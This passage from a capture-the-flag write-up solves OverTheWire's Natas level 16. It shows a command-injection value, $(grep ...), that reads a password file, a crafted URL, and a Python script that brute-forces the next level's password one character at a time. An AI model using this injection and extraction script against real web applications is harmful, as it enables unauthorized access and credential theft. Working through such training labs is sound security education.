 This time we will give it the flag ```-E``` to allow the use of regular expressions.


So, for example, we can use the *regex wildcard* **.\*** to search for a char (say *a*) in the password string:


```
$(grep -E ^a.* /etc/natas_webpass/natas17)banana
```

If *grep II* finds a match, it returns the char. In the other case, it won't return any output.

Once *grep II* is over, *grep I* will do the regular search for the pattern we passed (banana).

If *grep II* didn't return anything, banana will be banana. If *grep II* returns a match, banana will have this extra string added to it (abanana).

Now we can extend this logic to each char in the password string.

#### Crafting the attack:

By inspection, we see that the crafted URL to check, say, *a* in the first char, should look like this:

> http://natas16.natas.labs.overthewire.org/?needle=$(grep%20-E%20^a.*%20/etc/natas_webpass/natas17)banana&submit=Search

This allows us to write the following script:


```python
import requests
import string

def brute_force_password(LENGTH, AUTH, CHARS, URL1, URL2):
        password = ''
        for i in range(1, LENGTH+1):
            for j in range (len(CHARS)):
                print("Position %d: Trying %s ..." %(i, CHARS[j]))
                r = requests.get( ( URL1 + password + CHARS[j] + URL2  ), auth=AUTH)
                if 'bananas' not in r.text:
                        password += CHARS[j]
                        print("Password so far: " + password)
                        break
        return password

if __name__ == '__main__':
        # authorization: login and password
        AUTH = ('natas16', '****************************')

        # BASE64 password and 32 bytes
        CHARS = string.ascii_letters + string.digits
        LENGTH = 32

        # crafted url
        URL1 = 'http://natas16.natas.labs.overthewire.org?needle=$(grep -E ^'
        URL2 = '.* /etc/natas_webpass/natas17)banana&submit=Search'

        print(brute_force_password(LENGTH, AUTH, CHARS, URL1, URL2))
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]:  http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/bt3gl/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits